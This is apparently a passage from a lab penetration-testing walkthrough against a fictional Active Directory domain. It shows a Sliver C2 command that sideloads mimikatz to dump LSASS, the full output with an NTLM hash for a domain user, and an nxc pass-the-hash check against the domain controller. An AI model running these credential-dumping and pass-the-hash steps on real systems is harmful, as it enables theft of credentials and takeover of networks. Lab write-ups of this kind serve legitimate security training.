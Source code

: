 After obtaining the session, we can perform an LSASS dump with `mimikatz`. We'll use the `sideload` command for this.

```
sliver (initial) > sideload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe '"sekurlsa::logonpasswords" "exit"'

[*] Output:

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/



Authentication Id : 0 ; 776299 (00000000:000bd86b)
Session           : Batch from 0
User Name         : Castle_Knight_21
Domain            : async
Logon Server      : KING-DC
Logon Time        : 5/7/2025 11:13:18 PM
SID               : S-1-5-21-3324594629-4204122608-2512478463-1113
        msv :
         [00000003] Primary
         * Username : Castle_Knight_21
         * Domain   : async
         * NTLM     : 8d987bd5a242dcb12bf5a18a8cb68554
         * SHA1     : 63a065e16179ad897d776e5f99a095b5b18656f4
         * DPAPI    : b8fb733f8d376f1bbbae391e5eb4a03d
        tspkg :
        wdigest :
         * Username : Castle_Knight_21
         * Domain   : async
         * Password : (null)
        kerberos :
         * Username : Castle_Knight_21
         * Domain   : ASYNC.EMPIRE
         * Password : (null)
        ssp :
        credman :
        cloudap :
```

After discovering the credentials for the `Castle_Knight_21` user, we can verify them by running them against the Domain Controller.

```
proxychains -q nxc smb King-DC.async.empire -u 'Castle_Knight_21' -H '8d987bd5a242dcb12bf5a18a8cb68554'
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False) 
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Castle_Knight_21:8d987bd5a242dcb12bf5a18a8cb68554 
```
